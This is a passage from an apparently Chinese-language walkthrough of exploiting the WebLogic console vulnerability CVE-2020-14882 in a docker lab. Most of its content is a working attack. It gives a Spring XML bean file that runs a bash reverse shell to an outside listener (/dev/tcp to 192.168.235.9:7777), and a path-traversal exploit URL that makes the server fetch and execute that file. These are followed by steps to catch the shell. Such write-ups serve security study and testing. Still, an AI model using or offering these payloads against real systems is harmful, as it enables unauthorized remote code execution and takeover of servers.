 访问之后响应页面如下  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEd816QNwicib3ia98icIgoibkXxXZDJ1iaoLvZ67lbcxvmYuJGnjF8QibQz1HQ/640?wx_fmt=png&from=appmsg "")  
  
可以在 docker 中查看命令是否执行成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEL7TdF1iaCq4UiczTIH11g4F3bsfhMLFk8fLuYz5CcIJtpSm48b5S2z4Q/640?wx_fmt=png&from=appmsg "")  
  
success 存在，说明命令执行成功！  
  
利用方式2  
  
com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext，更为通杀的一种方式。  
  
利用思路：利用 RCE 漏洞将 Web Server 上的反弹 shell 文件下载到本地并执行反弹 Shell。  
```
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[bash -i >& /dev/tcp/192.168.235.9/7777 0>&1]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```  
  
EXP  
```
http://<靶机 IP>:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext(%22http://<Web Server Socket>/CVE-2020-14882.xml%22)
```  
  
  
http://192.168.111.128:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext(%22http://192.168.235.9/CVE-2020-14882.xml%22)  
  
开启端口监听  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEz2cdukjDhf39e5pqMricnJSzsgbZRAibJW6kNtC6vAu0GoZ3evGAEic4A/640?wx_fmt=png&from=appmsg "")  
  
访问URL  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVE5GdpMKxtpKEeOqicK9hb3vDDTdxibrlW9wN9Ag4eyIUwmSIiaib8R712oQ/640?wx_fmt=png&from=appmsg "")  
  
成功接收到Shell  
  
  